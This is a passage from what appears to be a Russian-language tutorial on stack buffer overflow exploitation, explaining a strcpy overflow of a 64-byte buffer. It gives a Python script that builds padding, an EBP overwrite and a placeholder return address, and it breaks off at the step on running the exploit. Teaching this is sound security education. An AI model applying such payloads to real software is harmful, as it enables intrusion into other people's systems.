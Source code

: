 Здесь `buffer` размером 64 байта, а функция `strcpy` не проверяет длину входных данных, что делает код уязвимым к переполнению буфера.

### 2. Подготовка эксплойта

Наша цель — переполнить буфер и перезаписать адрес возврата, чтобы программа исполнила наш внедренный код.

#### Шаги:

1. **Заполнить буфер**: Нам нужно заполнить 64 байта буфера и продолжить запись, чтобы перезаписать адрес возврата.
2. **Перезаписать адрес возврата**: Переписываем адрес возврата функцией `vulnerable_function`, чтобы он указывал на наш исполняемый код.
3. **Внедрить shellcode**: Shellcode — это небольшой фрагмент кода, который мы хотим выполнить. Он должен находиться в памяти и быть исполнимым.

#### Пример эксплойта:

Мы подготовим строку, которая переполнит буфер и перезапишет адрес возврата.

### 3. Построение эксплойта

Для создания эксплойта мы используем Python для генерации строки, которая переполнит буфер и перезапишет адрес возврата.

```python
#!/usr/bin/python3

import struct

# 64 байта, чтобы заполнить буфер
buffer = b"A" * 64

# Дополнительные байты для перезаписи EBP (4 байта)
ebp_overwrite = b"B" * 4

# Новая адреса возврата: тут нужно поставить адрес на наш shellcode
# Предположим, что наш shellcode будет расположен по адресу 0xdeadbeef
new_return_address = struct.pack("<I", 0xdeadbeef)

# Собираем финальный эксплойт
exploit = buffer + ebp_overwrite + new_return_address

# Записываем в файл
with open("exploit.txt", "wb") as f:
    f.write(exploit)
```

Этот скрипт создает строку, которая будет заполнена символами `A` для переполнения буфера, затем перезаписывает EBP символами `B`, и в конце подставляет новый адрес возврата.

### 4. Запуск эксплойта
